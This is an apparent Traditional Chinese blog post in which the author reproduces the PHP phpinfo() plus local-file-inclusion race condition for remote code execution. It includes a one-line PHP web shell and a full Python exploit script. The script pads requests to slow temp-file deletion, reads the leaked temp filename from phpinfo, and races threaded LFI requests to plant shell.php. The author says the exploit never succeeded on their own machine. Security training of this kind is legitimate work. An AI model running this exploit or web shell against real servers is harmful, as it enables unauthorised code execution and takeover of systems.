



前前言 #
由於自己電腦環境一直無法順利執行成功，因此最後就放棄此漏洞的實作，
但文章打都打了，不發也是白打，
應該是我自己電腦的問題，歡迎大家也去嘗試看看能否成功，
或是來私訊跟我討論，謝謝大家。
前言 #
有幸參與了台灣好厲駭邀請業界知名大神 orange 所舉辦的Web Security 輕鬆談，本次課程真的受益許多，真的很推薦所有有參加台灣好厲駭的都可以去報名，好去愛去 明年還去(X
總之在課程中有提到在php中有個LFI的漏洞，在聽完敘述還有稍微實際操作後感到滿有興趣的，因此想說課後要來自己實際操作一次該漏洞，於是就有本篇了
本次一樣有將復現內容放在我個人的github上，歡迎大家一起跟著實際操作看看
漏洞介紹 #
在 php 的配置文件中，預設了一項 file_uploads = on ，而該設定則會導致一個神奇的特性，
即使在頁面中，沒有設有接收輸入值的部分，例如單純的 phpinfo() 介面，
但如果仍發送內容過去， php 並不會無視這些內容，而是會將其作為暫存檔儲存，
直到整個要求完整跑完後，若都沒有存取到剛剛輸入的內容，則才會將剛剛傳入的內容刪除。
如果只是這樣還沒有太大的問題，因為暫存檔的檔名都是隨機產生的，
(例如在Windows中的型式是php****.tmp)
但在 phpinfo 中，卻會顯示出所有接受到的值，並將他們的資訊都列出來，
(例如檔名、路徑等，下方復現的部分有例圖)
也因此就會導致先前傳送的暫存檔檔名leak，
而我們這時就能透過LFI的漏洞去存取到剛剛傳入的惡意payload，
最後以此來達到RCE的效果。
復現 #
復現邏輯 #
我們透過向伺服器傳送一個其中帶有惡意 payload 的 request ，
並且在該 request 中添加大量的A來 padding ，用意是為了讓網頁處理該封包時速度變慢，
因為我們上述有提到說在該要求運行結束後，若是沒有存取到剛剛傳入的內容，則會將其刪掉，
因此我們透過填充大量字元，來減緩伺服器處理該封包的速度，以便讓我們來得及去存取剛才傳入的 payload ，
最後透過LFI漏洞來存取剛剛輸入的 payload ，即可順利 RCE 。
暫存檔 #
我們一開始先透過 burp suite ，在 phpinfo的介面中隨便發送一個內容，
(記得將 http request 改成 POST)

在該頁面中，是沒有任何會接收輸入值的內容，
但我們透過查詢 phpinfo 介面，
卻會發現他仍然有將我們剛剛所傳送的內容，
保存在 php87F2.tmp 中。

該暫存檔具體內容真的是剛剛所傳送的內容嗎？
我們這邊寫一個腳本來查看該暫存檔，
可以發現到，其中真的就是我們剛剛所輸入的test。
(腳本有時候會抓不到tmp檔，多試幾次就可以了)

不知道各位看到這裡會不會好奇一件事，
直接去存取tmp檔案就能順利執行惡意代碼了嗎？
因此我們這邊先來做個小實驗，透過在伺服器同目錄下建立一個 phpTEST.tmp ，
並將其中內容建立為簡單的 php 的 web shell，
<?php passthru($_GET["f"]);?>
而實際去存取該檔案可以看到，已經是順利執行 web shell 的內容了，
也因此我們後續如果成功將 web shell 寫入暫存檔後，只需要直接去存取該檔案就能順利運行了。
LFI to RCE #
我們透過 socket 來不斷對 phpinfo 發送大量封包，以達到減緩伺服器刪除tmp檔案速度，
並在讀取送回內容時進行快速讀取，
以便在查找到 tmp 檔的第一時間就透過 LFI 漏洞去存取該 web shell，
最終就成功順利植入 web shell。
在 github repo 中，ans001 與 ans002 為別人撰寫的 poc 腳本，可以一起嘗試看看是否能順利運行。
import socket
import threading
# 設定request
def setup(host,port):
padding = "A" * 5000
TAG = "Security Test"
PAYLOAD = """%s\r
<?php $c=fopen('shell.php','w');fwrite($c,'<?php passthru($_GET["f"]);?>');?>\r""" % TAG
# 請求的正文部分
body = f"""
------WebKitFormBoundaryfHfyAsoxPPUAHIAj\r
Content-Disposition: form-data; name="file"; filename="test.txt"\r
Content-Type: text/plain\r
\r
{PAYLOAD} \r
------WebKitFormBoundaryfHfyAsoxPPUAHIAj--\r
"""
# 計算 Content-Length
content_length = len(body)
# 組建 HTTP Request
TMPrequest = f"""POST /phpinfo.php?a=test.txt HTTP/1.1
Host: {host}:{port}
Content-Length: {content_length}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfHfyAsoxPPUAHIAj
Connection: keep-alive
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie={padding}
Cache-Control: {padding}
Accept-Language: {padding}
Upgrade-Insecure-Requests: {padding}
User-Agent: {padding}
Accept: {padding}
{body}"""
LFIrequest = """
GET /lfi.php?file=%s HTTP/1.1
Host: 192.168.56.1:8000
User-Agent: Mozilla/4.0
Proxy-Connection: Keep-Alive
"""
return(TMPrequest , TAG , LFIrequest)
#找出tmp的偏移
def offset(request,host,port):
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((host, port))
client_socket.send(request.encode('utf-8'))
response = b""
while True:
chunk = client_socket.recv(4096)
if not chunk:
break
response += chunk
client_socket.close()
i = response.find(b"[tmp_name] =>")
if i == -1:
raise ValueError ("no tmp file")
print ("find tmp in %s",i)
tmp_name = response[i:i+100]
start = tmp_name.find(b'>') +5 +i
end = tmp_name.find(b'.tmp') +4 +i
i += 255
print(end-start)
return(start,end)
def LFI(LFIrequest,request,start,end,host,port,TAG):
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s2.connect((host, port))
s.send(request.encode('utf-8'))
d = ""
while (len(d)<end):
d += s.recv(end).decode('utf-8')
fn = d[start:end]
s2.send((LFIrequest % str(fn)).encode('utf-8'))
response = s2.recv(4096)
response = s2.recv(4096)
s.close()
s2.close()
if response.decode('utf-8').find(TAG) !=-1:
return fn
counter = 0
class ThreadWorker(threading.Thread):
def __init__(self, e, l, m, *args):
threading.Thread.__init__(self)
self.event = e
self.lock = l
self.maxattempts = m
self.args = args
def run(self):
global counter
while not self.event.is_set():
with self.lock:
if counter >= self.maxattempts:
return
counter += 1
try:
x = LFI(*self.args)
if self.event.is_set():
break
if x:
print("\nGot it! Shell created in /tmp/g")
self.event.set()
except socket.error:
return
def main():
host = '127.0.0.1'
port = 80
TMPrequest , tag , LFIrequest =setup(host,port)
start , end = offset(TMPrequest,host,port)
# LFI(LFIrequest, TMPrequest, start, end, host, port, tag)
maxattempts = 1000
poolsz = 20
e = threading.Event()
l = threading.Lock()
tp = []
for i in range(0, poolsz):
tp.append(ThreadWorker(e, l, maxattempts, LFIrequest, TMPrequest, start, end, host, port, tag))
# def LFI(LFIrequest,request,start,end,host,port,TAG):
for t in tp:
t.start()
try:
while not e.wait(1):
if e.is_set():
break
with l:
print("\r% 4d / % 4d" % (counter, maxattempts))
if counter >= maxattempts:
break
print()
if e.is_set():
print("Woot!")
else:
print(":(")
except KeyboardInterrupt:
print("\nTelling threads to shutdown...")
e.set()
if __name__ == "__main__":
main()